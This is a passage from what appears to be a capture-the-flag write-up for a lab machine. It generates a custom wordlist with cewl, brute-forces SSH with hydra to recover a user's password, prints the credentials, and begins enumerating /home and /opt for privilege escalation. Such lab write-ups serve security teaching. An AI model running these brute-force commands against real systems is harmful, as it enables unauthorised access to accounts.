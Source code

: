 
First, let's generate a wordlist from this:


```
cewl http://10.10.128.188/simeon > simeon_wordlist.txt
```

Since the hint said that the password was `all over the place` it could mean it can be found inside of any of those chapters, we use cewl to generate us a custom wordlist to perform bruteforce, once generated, we can do this:

```
hydra -l simeon -P simeon_wordlist.txt ssh://10.10.128.188 -t 40

[22][ssh] host: 10.10.128.188   login: simeon   password: scelerisque
```

There we go, we got credentials:

```
simeon:scelerisque
```


![](cybersecurity/images/Pasted%2520image%252020250607152053.png)
Let's begin privilege escalation.

# PRIVILEGE ESCALATION
---


We can make the session more comfortable:

```
export BASH=bash
export TERM=xterm
```


```
[simeon@aratus ~]$ ls -la /home
total 4
drwxr-xr-x.  5 root       root         54 Nov 23  2021 .
dr-xr-xr-x. 17 root       root        224 Mar 25  2022 ..
drwx------.  4 automation automation  127 Dec  2  2021 automation
drwxr-xr-x. 12 simeon     simeon     4096 Jan 10  2022 simeon
drwx------.  5 theodore   theodore    158 Mar 25  2022 theodore
[simeon@aratus ~]$
```

We can find `theodore` and `automation`, the message also said something about `/opt`, let's check it out:

```
[simeon@aratus ~]$ ls -la /opt
total 0
drwxr-xr-x.  4 root       root      36 Nov 22  2021 .
dr-xr-xr-x. 17 root       root     224 Mar 25  2022 ..
drwxr-x---.  4 automation theodore  90 Nov 23  2021 ansible
drwxr-x---.  2 automation theodore  30 Nov 23  2021 scripts
```
